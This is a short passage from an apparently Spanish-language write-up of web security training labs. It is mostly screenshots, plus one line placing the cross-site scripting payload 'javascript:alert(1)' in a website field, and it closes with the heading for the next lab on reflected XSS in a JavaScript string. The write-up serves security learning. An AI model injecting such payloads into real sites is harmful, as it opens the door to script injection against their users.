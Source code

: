 <figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Ponemos el siguiente payload en el campo website.

```
javascript:alert(1)
```

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

## Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded
